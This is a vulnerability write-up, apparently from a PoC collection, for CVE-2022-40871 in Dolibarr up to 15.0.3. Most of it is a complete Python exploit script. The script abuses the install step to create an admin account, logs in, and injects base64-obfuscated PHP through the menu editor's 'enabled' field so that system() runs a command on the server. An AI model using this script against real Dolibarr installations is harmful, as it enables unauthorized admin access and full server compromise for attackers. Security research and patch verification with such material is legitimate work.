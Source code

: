 # Dolibarr edit.php remote command execution vulnerability CVE-2022-40871

## Vulnerability Description

Dolibarr edit.php has a remote command execution vulnerability. After an attacker creates an administrator through a logical vulnerability, he can obtain server permissions through a background vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Dolibarr <= 15.0.3</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"Dolibarr" </span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1666106233621-1f21de71-8afd-4fef-9b15-65324fd1f47c.png)

Use POC to create a user for command execution

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20221019002357380.png)

## Vulnerability POC

<a-alert type="success" message="https://github.com/youncyb/dolibarr-rce" description="" showIcon>
</a-alert>
<br/>

```java
import requests
from requests.packages import urllib3
import time
import random
import sys
import re


sess = requests.Session()
pcre = re.compile(r'name=\"token\"\s+value=\"([^>]+)\"\s*[/]*>')
def request(method, url, headers=None, data=None, proxies=None, timeout=30):
    i = 1
    urllib3.disable_warnings()
    resp = None
    proxies = proxies
    while i <= 3:
        try:
            resp = sess.request(method=method, url=url, headers=headers,
                                    data=data, proxies=proxies, timeout=timeout, verify=False)
            break
        except requests.exceptions.TooManyRedirects:
            break
        except requests.exceptions.ConnectionError as e:
            time.sleep(2 + random.randint(1, 4))
        except (requests.exceptions.ConnectTimeout, requests.exceptions.ReadTimeout, requests.exceptions.Timeout):
            time.sleep(2 + random.randint(1, 4))
        finally:
            i += 1
    if i > 3:
        print('[-]Error retrieve with max retries: {}'.format(url))
    return resp

def exp():
    if len(sys.argv) < 2:
        sys.exit('Usage: python3 {} https://xxxxx.com/'.format(sys.argv[0]))
    if sys.argv[1][-1] == '/':
        base = sys.argv[1].rsplit('/', 1)[0]
    else:
        base = sys.argv[1]
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36',
    }
    #proxies = {'http': 'https://127.0.0.1:8082', 'https': 'https://127.0.0.1:8082'}
    proxies = None
    res = request('GET', base, headers=headers, proxies=proxies)
    err_flag = 1
    if res:
        print('[*] Attempt to add admin.')
        base = res.url.rsplit('/', 1)[0]
        add_admin_url = '{}/install/step5.php'.format(base)
        data = {
            'action': 'set',
            'login': 'testadmins',
            'pass': 'testadmins',
            'pass_verif': 'testadmins',
            'selectlang': 'auto'
        }
        headers['Content-Type'] = 'application/x-www-form-urlencoded'
        res = request('POST', add_admin_url, headers=headers, data=data, proxies=proxies)
        if res and 'created successfully' in res.text or ('exists' in res.text and 'Email  already exists' not in res.text):
            csrf_token_url = '{}/index.php'.format(base)
            res = request('GET', csrf_token_url, headers=headers, proxies=proxies)
            if res:
                print('[*] Attempt to login.')
                try:
                    csrf_token = pcre.findall(res.text)[0]
                except:
                    csrf_token = ''
                login_url = '{}/index.php?mainmenu=home'.format(base)
                headers['Referer'] = csrf_token_url
                data = {
                    'token':'{}'.format(csrf_token),
                    'actionlogin': 'login',
                    'loginfunction': 'loginfunction',
                    'username': 'testadmins',
                    'password': 'testadmins'
                }
                res = request('POST', login_url, headers=headers, data=data, proxies=proxies)
                if res and res.status_code == 200 and 'logout.php' in res.text:
                    print('[*] Attempt to get csrf token.')
                    csrf_token_url = '{}/admin/menus/edit.php?menuId=0&action=create&menu_handler=eldy_menu'.format(base)
                    res = request('GET', csrf_token_url, headers=headers, proxies=proxies)
                    if res:
                        print('[*] Attemp to inset evil data.')
                        try:
                            csrf_token = pcre.findall(res.text)[0]
                        except:
                            csrf_token = ''
                        inset_evil_url = '{}/admin/menus/edit.php'.format(base)
                        data = {
                            'token': '{}'.format(csrf_token),
                            'action': 'add',
                            'menuId': random.randint(10000, 99999),
                            'menu_handler': 'eldy_menu',
                            'user': 2,
                            'type': 1,
                            'titre': 1,
                            'url': 1,
                            'enabled': "1==1));$d=base64_decode('ZWNobyAnPCEtLScmJmVjaG8gcHduZWQhISEmJmlkJiZlY2hvJy0tPic=');$a=base64_decode('c3lzdGVt');$a($d);//" #execute id command，bypass core/lib/function.lib.php limits
                        }
                        res = request('POST', inset_evil_url, headers=headers, data=data, proxies=proxies)
                        if res and res.history[0].status_code == 302:
                            print('[*] Attemp to execute command.')
                            request('GET', '{}/admin/menus/index.php'.format(base), headers=headers, proxies=proxies)
                            time.sleep(3)
                            evil_url = '{}/admin/index.php'.format(base)
                            res = request('GET', evil_url, headers=headers, proxies=proxies)
                            if res and res.status_code == 200 and 'pwned!!!' in res.text:
                                print(res.text[:100])
                                print('[+] vulnrable! {}'.format(base))
                                err_flag = 0
                    
    if err_flag:
        print('[-] {} is not exploitable.'.format(sys.argv[1]))

exp()
```
